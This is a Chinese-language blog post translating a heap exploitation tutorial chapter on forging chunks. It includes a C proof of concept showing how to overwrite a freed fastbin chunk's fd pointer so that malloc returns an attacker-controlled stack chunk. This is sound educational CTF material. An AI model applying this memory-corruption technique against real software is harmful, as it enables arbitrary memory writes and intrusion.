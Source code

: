 ```yaml
---
title: Heap Exploitation系列翻译-10 Forging chunks
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


# Forging chunks

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

在堆块被释放后, 堆块会被插入到一个bin链表中. 然而它的指针在程序中依旧是可用的. 如果攻击这控制了这个指针, 那么他/她便可以修改bin的链表结构并插入他/她自己构造的`伪造`堆块. 以下的示例程序展示了在fastbin的释放链表中如何实现这一攻击.

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

伪造堆块的size设置为0x20, 这一就可以通过安全检查"malloc(): memory corruption (fast)", 这是用来检查堆块大小是否在特定fastbin的代销范围内. 同时要注意, 一块已分配的堆块, 它的存储数据起始于'fd'指针所在的地址. 这也就是为什么在上述程序中, `victim`指针指向了'伪造堆块'更前`0x10`(0x8+0x8)字节的位置处.

fastbin的状态变化如下:

1. 'a' freed.
  > head -> a -> tail
2. a's fd pointer changed to point to 'forged chunk'.
  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
3. 'malloc' request
  > head -> forged chunk -> undefined
4. 'malloc' request by victim
  > head -> undefined   [ forged chunk is returned to the victim ]

注意以下几点:

* 如果这里同一个bin链表再进行一次'malloc'申请fast chunk将导致段错误(segmentation fault)
* 尽管我们申请10字节大小并且设置伪造堆块的大小为32(0x20)bytes, 但是都在32bytes的fastbins堆块范围内.
* 换作small chunk和large chunk的攻击方法我们将在'House of Lore'见到
* 上述代码运行在64位机器上, 如果要在32位机器上运行, 请将`unsigned long long`换成`unisgned int`, 因为指针长度由8bytes变成了4bytes. 同样, 相比为伪造堆块使用32bytes, 这里用更小的17bytes左右也能奏效.
